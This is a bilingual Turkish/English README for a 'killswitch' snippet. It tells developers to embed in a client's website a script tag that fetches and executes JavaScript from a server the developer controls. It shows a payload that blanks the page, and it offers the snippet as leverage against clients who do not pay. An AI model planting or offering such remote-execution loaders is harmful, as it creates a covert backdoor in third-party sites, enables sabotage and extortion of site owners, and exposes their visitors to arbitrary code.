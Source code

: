 # css-killswitch
The holy CSS killswitch that devastates HTML body.


## Türkçe ##

Eğer benim gibi ufak-orta ölçekli projelerle uğraşıyorsanız, ve proje altyapısı sizin elinizde değilse, yani hosting&domain ikilisi size ait değilse, bu kod işinize yarayacaktır.

```sh
<script type="text/javascript">

jQuery.ajax({

type: "GET",

url: "http://seninelindekibirsite.com/killswitch/acildurum.js",

dataType: "script"

});

</script>
```

bu script tag'inin içindeki get işlemi, sizin kontrolünüz altında olan bir siteden acildurum JS dosyamızı çağırır. Peki acildurum.js'nin içinde ne var?

```sh

/*jQuery("body").css("display","none");
$( "body" ).append( "<p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p>" );*/
```

Tabi ki siteyi kullanılmaz hale getiren ufak bir kod bloğu. Ve paramızı ödemekte problem çıkartan müşteri, götüm götüm bizi kovalamaya başlıyor. Sorun çözüldü!

Not: Bu kodu kullanıp projeyi kullanılmaz hale getirmeniz ile ilgili bütün yasal sorumluluk size aittir. Eğer müşteri ile iletişim kuramıyorsanız, ödemenizi alıp projeyi sonlandırma pencereniz tamamen kapandıysa, bu kod muhtemelen iyi bir seçim olacaktır.

Eğer çalışmayı beğendiyseniz, lütfen bana bir kahve alın: http://buymeacoff.ee/ilgink

## English ##

Hey! If you dude work on small-mid range projects and don't own the domain&hosting infrastructure, that code might be the catch for you.





```sh
<script type="text/javascript">

jQuery.ajax({

type: "GET",

url: "http://seninelindekibirsite.com/killswitch/acildurum.js",

dataType: "script"

});

</script>
```

This script tag calls a script from a website you own, and let's see what we got here?

```sh

/*jQuery("body").css("display","none");
$( "body" ).append( "<p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p>" );*/
```

Of course, a code block to get website unaccessible. Client that refuses the pay up will get his/her *ss on fire soon, problem solved!

Note that I'm not responsible for the illegal use of that code block, all the legal responsibility on you. It's a final solution for client doesn't come up on phone calls, and the certain consequences that you get ripped off. Also note that you're gonna be the guilty side if you had a partial payment for the project.

Please buy me a coffee if you like the work here: http://buymeacoff.ee/ilgink
